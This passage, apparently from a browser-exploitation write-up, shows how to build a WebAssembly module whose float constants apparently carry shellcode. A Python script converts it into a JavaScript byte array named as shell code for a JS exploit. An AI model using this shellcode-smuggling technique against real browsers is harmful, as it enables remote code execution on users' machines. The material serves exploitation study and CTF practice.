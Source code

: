 
![](https://raw.githubusercontent.com/jopraveen/jopraveen/refs/heads/main/imgs/Pasted%20image%2020241023224037.png)

- Now we need to convert this wat code to wasm and add that wasm code in our javascript exploit.
- Use this [tool](https://github.com/WebAssembly/wabt/releases/download/1.0.36/wabt-1.0.36-ubuntu-20.04.tar.gz) and use `wat2wasm` binary to convert this code to web assembly

```python
import os

let_wat_code = '''
(module
  (func (export "main") (result f64)
f64.const  -1.1724392442428853e-117
f64.const  -0.12400912772790662
f64.const  -1.0023968399475393e+120
f64.const  -5.174445551559503e+245
f64.const  8.309884721501063e-246
f64.const  2.0924531835600378e-110
f64.const  3.5295369634097827e+30
f64.const  4.034879290548565e+175
f64.const  -9.77719779008621e-292
f64.const  -5.277350363223755e-137
f64.const  -1.9615413994613874e+23
f64.const  -4.9824131924791864e+187
f64.const  3.8821145718632853e-265
drop
drop
drop
drop
drop
drop
drop
drop
drop
drop
drop
drop
))
'''

open('exp.wat','w').write(let_wat_code)
os.system('./wat2wasm exp.wat')
wasm_bytes = open('exp.wasm','rb').read()
print('let shell_wasm_code = new Uint8Array([',end=' ')
for byte in wasm_bytes:
	print(byte,end=', ')
print('])')
```

- The above python code converts it for us and give use the js code

![](https://raw.githubusercontent.com/jopraveen/jopraveen/refs/heads/main/imgs/Pasted%20image%2020241023224523.png)
